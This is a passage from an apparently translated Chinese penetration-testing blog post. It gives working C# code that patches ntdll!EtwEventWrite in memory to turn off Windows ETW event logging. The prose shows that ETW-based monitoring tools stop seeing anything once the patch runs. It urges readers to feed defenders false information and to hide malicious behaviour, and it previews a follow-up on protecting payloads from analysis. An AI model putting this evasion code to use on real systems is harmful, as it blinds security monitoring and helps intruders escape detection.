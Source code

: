 ```
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    }

    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("ETW Unhook Example @_xpn_");

            // Used for x86, I'll let you patch for x64 ;)
            PatchEtw(new byte[] { 0xc2, 0x14, 0x00 });

            Console.WriteLine("ETW Now Unhooked, further calls or Assembly.Load will not be logged");
            Console.ReadLine();
            //Assembly.Load(new byte[] { });
        }

        private static void PatchEtw(byte[] patch)
        {
            try
            {
                uint oldProtect;

                var ntdll = Win32.LoadLibrary("ntdll.dll");
                var etwEventSend =   Win32.GetProcAddress(ntdll, "EtwEventWrite");

                Win32.VirtualProtect(etwEventSend, (UIntPtr)patch.Length, 0x40, out oldProtect);
                Marshal.Copy(patch, 0, etwEventSend, patch.Length);
            }
            catch
            {
                Console.WriteLine("Error unhooking ETW");
            }
        }
    }
}
```

执行测试用例后，可以看到patch之前仍然会有些事件产生，但patch成功后系统已不再记录任何事件：

[![](./img/201222/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t017c87ed0569d0c33e.png)

现在如果我们使用的工具依赖ETW作为数据采集源（比如ProcessHacker），我们将无法得到任何有用信息：

[![](./img/201222/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t018f33146a1fdebbe7.png)

大家可以利用这些技术来发挥自己的创造力，比如向防御方提供虚假信息、过滤掉可能危险的行为特征。除了patch `ntdll!EtwEventWrite`之外，我们还有其他方法能够禁用ETW。这里最关键的一点是：尽管ETW在行为检测上非常有用，但仍然存在其局限性。

希望本文能给大家在渗透测试中提供思路。在第2篇文章中，我们将探讨其他内容，分析如何避免payload被防御方提取及分析。

